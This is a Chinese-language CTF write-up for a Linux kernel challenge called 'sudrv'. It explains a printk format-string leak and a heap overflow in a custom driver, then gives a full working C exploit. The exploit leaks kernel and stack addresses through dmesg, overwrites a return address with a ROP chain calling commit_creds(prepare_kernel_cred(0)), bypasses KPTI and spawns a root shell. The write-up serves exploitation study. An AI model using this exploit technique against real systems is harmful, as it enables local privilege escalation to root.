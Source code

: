 



# sudrv

自己做出来的第二个 kernel 题目，也是在网上看了很多很多很多东西

## 前置知识

首先是内核堆块的分配策略

slab 机制见[这篇文章](https://blog.csdn.net/lukuen/article/details/6935068)

简单的说我这边看到的就是，分配的堆块大小是固定的某些值，这些值通常是2的n次方根，并且将链表的零散堆块清空后，再分配就是再连续的一整个大块里面，也就是说，你现在申请的地址下面可能就有指向下一个待分配堆块的指针。

然后是堆的格式化字符串

同用户态，内核的 printk 也会产生格式化字符串漏洞，并且在最开始启动内核时，有如下一些信息打印出来

![image-20220922155211641](img/image-20220922155211641.png)

因此我们可以直接看到 printk 输出的数据，也可以通过dmesg查看数据

## 漏洞点

首先是格式化字符串

![image-20220922155529433](img/image-20220922155529433.png)

然后是 write 没有限制长度，导致可以实现堆溢出

![image-20220922155805531](img/image-20220922155805531.png)

## 漏洞利用

关于格式化字符串利用，内核里可以通过 %llx 来打印出内容，是直接显示在终端的，但是通过 dmesg 也可以再次查看，那么我们可以重定向一下保存到文件里，再读文件将 leak 出来的 内容弄出来就行。

之后就是同用户态一样，算偏移，找gadget

然后就是堆利用的部分，和用户态的 tcache 类似，修改指针可以直接申请到该内存，并且指针还是连续分布的（，因此堆溢出就可以实现任意地址申请

那么我们申请的地方就可以是栈，申请到 调用函数的返回地址就行了

最后是 rop 链的构造，起初我也以为可以直接照搬之前的 rop 链，但是有些 gadget 居然是不一样的，因此重新构造了一些，而且前面还需要执行 signal(SIGSEGV, shell); 在用户态执行 shell ，主要是由于内核开了 KPTI 

[KPTI - Kernel Page Table Isolation - CTF Wiki (ctf-wiki.org)](https://ctf-wiki.org/pwn/linux/kernel-mode/defense/isolation/user-kernel/kpti/)

```shell
dmesg | grep 'page table'
```

![image-20220922161647244](img/image-20220922161647244.png)

这边提一下泄露出内核地址后，可以通过如下命令得到内核的基地址，然后得到偏移

```shell
cat  /proc/kallsyms | tail -n +1 | head -n 10
```

![image-20220922115700052](img/image-20220922115700052.png)

## 最终exp

比较稳定 getshell

```c
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/ioctl.h>
#include <signal.h>

size_t commit_creds = 0x81410;
size_t prepare_kernel_cred = 0x81790;
size_t pop_rdi_ret = 0x1388;
size_t pop_rdx_ret = 0x44f17;
size_t pop_rcx_ret = 0x674ff;
size_t pop_rbp_ret = 0x4ee;

size_t mov_rdi_rax_x_ret = 0x9e2959;
size_t mov_rdi_rax_y_ret = 0x1a2cb;

size_t swapgs_popfq_ret = 0xa00d5a;
size_t iretq_ret = 0x21762;

size_t vmlinux_base = 0;
size_t stack_addr = 0;
size_t user_cs, user_ss, user_rflags, user_sp;

void info(char *s , size_t address ){
    if (address) printf("\033[32m\033[1m[Info] %s : \033[0m%#lx\n", s, address);
    else printf("\033[32m\033[1m[Info] %s \033[0m\n", s);
}

void error(char *s){
    printf("\033[31m\033[1m[Error] %s\n\033[0m" , s);
    exit(1);
}

void shell(){
    if (getuid()){
        error("Failed to get root");
        exit(0);
    }
    info("Get root!",0);
    execl("/bin/sh","sh",NULL);
}

void save_status(){
    __asm__(
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
    );
    info("status saved!",0);
}

void get_address(){
    FILE* fd = fopen("/tmp/leak", "r");
    if(!fd){
        error("Cannot open file /tmp/leak");
    }
    float leak_f = 0;
    char leak_buf[0x100];
    char buf[0x100];
    size_t num = 0;
    size_t leak = 0;
    
    while(fgets(buf, 0x50, fd)){
        if (strstr(buf , "vmlinux_leak")){
            sscanf(buf , "%s%f%s%s%lx" , leak_buf ,&leak_f,leak_buf,leak_buf , &leak);
            vmlinux_base =leak - 0x1c827f;
        }
        if (strstr(buf , "stack_leak")){
            sscanf(buf , "%s%f%s%s%lx" , leak_buf ,&leak_f,leak_buf,leak_buf , &leak);
            stack_addr = leak ;
        }
    }
}

void set_offset(){
    commit_creds += vmlinux_base;
    prepare_kernel_cred += vmlinux_base;

    pop_rdi_ret += vmlinux_base;
    pop_rdx_ret += vmlinux_base;
    pop_rcx_ret += vmlinux_base;
    pop_rbp_ret += vmlinux_base;

    mov_rdi_rax_y_ret += vmlinux_base;

    swapgs_popfq_ret += vmlinux_base;
    iretq_ret += vmlinux_base;

    info("commit_creds" , commit_creds);
    info("prepare_kernel_cred" , prepare_kernel_cred);
}

// leak:deadbeef,40,40,b,0,ffffffff989c827f,c5d29dd937432d00,2

int main(){
    
    char buf[0x100] = "%llx,%llx,%llx,%llx,%llx,\nvmlinux_leak: 0x%llx\n,%llx,%llx,%llx,\nstack_leak: 0x%llx\n";
    size_t rop[0x600] = {0};
    int i =0;

    save_status();
    signal(SIGSEGV, shell);

    int fd = open("/dev/meizijiutql" , 2);

    ioctl(fd ,0x73311337 , 0xfff );
    write(fd ,buf , sizeof(buf) );
    ioctl(fd ,0xDEADBEEF );

    system("dmesg > /tmp/leak");
    get_address();
    set_offset();

    info("vmlinux_base" , vmlinux_base);
    info("stack_addr" , stack_addr);

    for (int i =0;i<0x100 ; ++i){
        ioctl(fd ,0x73311337 , 0xfff );
    }

    size_t write_ret = stack_addr - 0x88 ;
    size_t buffer[0x1010/8] ;

    buffer[0] = 0x114514 ;
    buffer[0x1000/8] = write_ret ;

    write(fd ,buffer , sizeof(buffer));
    
    //commit_creads(prepare_kernel_cred(0));
    rop[i++] = pop_rdi_ret;
    rop[i++] = 0;
    rop[i++] = prepare_kernel_cred;
    rop[i++] = pop_rcx_ret;
    rop[i++] = 0;
    rop[i++] = mov_rdi_rax_y_ret;
    rop[i++] = commit_creds;

    rop[i++] = swapgs_popfq_ret;
    rop[i++] = 0;
    rop[i++] = iretq_ret;
    rop[i++] = (size_t )shell;
    rop[i++] = user_cs;
    rop[i++] = user_rflags;
    rop[i++] = user_sp;
    rop[i++] = user_ss;

    ioctl(fd ,0x73311337 , 0xfff );
    ioctl(fd ,0x73311337 , 0xfff );

    // ioctl(fd ,0xDEADBEEF );

    write(fd , rop ,0x100);

}

```

